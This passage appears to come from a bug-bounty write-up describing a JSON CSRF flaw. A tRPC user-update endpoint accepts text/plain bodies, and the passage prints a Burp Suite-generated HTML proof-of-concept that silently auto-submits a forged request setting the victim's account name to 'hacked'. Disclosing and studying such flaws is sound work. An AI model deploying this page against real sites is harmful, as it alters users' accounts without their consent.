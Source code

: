 <figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## The JSON CSRF Vector

At this point, I noticed that the **Content-Type** of the request was set to `application/json`. Typically, JSON-based requests are less susceptible to CSRF because of the **same-origin policy** in most browsers. However, I saw a possible weakness in the `Accept: */*` header, which indicated that the server accepted all types of content formats, not just JSON.

This was where I saw an opportunity: I decided to test if the server would accept requests with a `Content-Type` of `text/plain`. If successful, this would open the door to a **CSRF vulnerability** since plain-text form submissions could be exploited in cross-site request forgery attacks.

## Testing the `text/plain` Hypothesis

I modified the **Content-Type** header in the intercepted request to `text/plain` and sent it again. To my surprise, the server accepted the request and processed it successfully, even though it was supposed to handle JSON.

This confirmed the presence of a potential CSRF vulnerability. Now, the next step was to create a **Proof of Concept (PoC)** using Burp Suite's CSRF PoC generator, but I hit a snag here.

## The Burp Suite PoC and the JSON Structure Problem

The CSRF PoC generated by Burp looked like this:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;hacked&quot;&#44;&quot;name&quot;&#58;&quot;test user&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1234567890&quot;&#44;&quot;country&quot;&#58;&quot;EG&quot;&#125;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
